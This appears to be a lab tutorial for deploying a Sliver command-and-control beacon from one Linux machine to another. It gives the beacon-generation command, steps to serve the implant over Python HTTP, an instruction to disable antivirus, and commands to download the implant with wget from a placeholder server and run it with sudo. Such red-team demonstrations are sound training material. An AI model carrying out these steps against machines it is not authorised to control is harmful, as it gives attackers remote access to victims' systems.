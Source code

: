 
# How To Create a C2 Server Using Sliver (Linux - Linux)


This tutorial is a followup to the README for going from a Linux Host to a Linux Client instead of Linux Host -> Windows Client

## Server

All instructions up to this point are the same, except the way the beacon is generated. To generate for Linux instead of Windows, run this command with these flags:

`generate beacon -b YOURIP:8080 --os linux -a x86`

* The -os flag can be `mac` or `linux` and
* The -a flag is `x86` or `arm` (depending on your machine)

This will generate the binary for your Linux machine, and you can continue on in this guide for the remaining steps

## Serve Up Executable

The next step is somewhat up to personal preference and can be done in countless ways. The way I will be covering will be using python, but you can also use apache or any other http protocol file server of your choice. This step doesn't even need to necessarily be done using HTTP, as there are also DNS, TCP, and other methods of transferring this executable, but HTTP is the simplest, so that's the one we went with.

To start a webserver using python, first check that you have python installed on your machine (it does not need to be python3).

I would *highly recommend* hosting this server as a background process using & so that you can reopen sliver, although you could also run this server inside a container or on another page of your terminal if your machine supports that.

If you have python3, you can run this command: `python3 -m http.server &`. If you have a valid internet connection, you should get a response saying your machine is now hosting on 0.0.0.0:8000.

If you do not have python3, you can run this command: `python -m SimpleHTTPServer &`.

Both of these methods should result in the same outcome, with a simple http server hosting the files on your current directory.

## Client (To Be Infected)
Now that we have a file server on our Linux machine that is serving up the executable file, we can move on to our Windows Machine.
> Note the infected machine can also be a Linux machine, but it will not have some of the same features as a Windows client


### Disable Anti-Virus Protections
If you have any pre-existing antivirus protection, you will most likely need to disable them for this demonstration.

### Open Server on Any Internet Browser (or using wget)

Next, open any internet browser (if you have one) or use wget to access the file server that was previously opened in the Serve Up Executable step.

Using an internet browser, go to `http://LINUX_SERVER_IP:8000` and download the executable.

However, because some Linux distributions do not come prepackaged with an internet explorer (or UI at all), we will also be covering how to use wget.

### WGET
To use wget, type in your terminal:
`wget http://LINUX_SERVER_IP:8000/*YOURBINARYFILE*`

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4e65b523-a057-4081-a879-824d2ae8e5e5)

This should install the file to the directory you are currently in.

Give the script executable permissions using `CHMOD 777 *NAME_OF_BINARY*`

Then, simply run the binary in the background with sudo ./*NAME_OF_BINARY* &

Your Linux machine should now appear in your beacons!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/60ad21d3-25a4-4fa9-9beb-08cc266bb48c)


Now, you can continue back to the original guide starting at 'The Door's Open, Now What?' in the [README](README.md)
